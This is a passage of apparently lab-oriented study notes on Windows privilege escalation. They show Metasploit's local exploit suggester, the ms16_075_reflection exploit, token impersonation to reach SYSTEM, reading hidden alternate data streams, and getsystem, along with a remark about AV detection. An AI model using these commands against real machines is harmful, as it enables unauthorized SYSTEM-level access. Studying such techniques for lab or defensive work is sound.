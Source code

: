 > it will generate a payload For us
run this payload in the machine, it should generate a session in our meterpreter

```bash
run /post/multi/recon/local_exploit_suggester
```

## Escalation
Background the session:
```bash
use exploit/windows/local/ms16_075_reflection
set options
run
```

meterpreter shell:
```bash
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
# root access
```

### Alternate Data Streams
https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/


> There is regular data stream and alternate data stream
Alternate is a way to hide information within a file

```bash
dir /R
hm.txt:root.txt:$DATA
more < hm.txt:root.txt:$DATA
```


# Escalation Path: getsystem

What happens when I type getsystem? - https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/

In meterpreter:
```bash
getsystem
getsystem -h
```

What getsystem does?

> there is 2 types of **named pipe impersonation**. One is in memory and other is in disk ( probably u should not run this, because AV detects )
and there is **Token Duplication**, that requires **SeDebugPrivileges** to be enable.



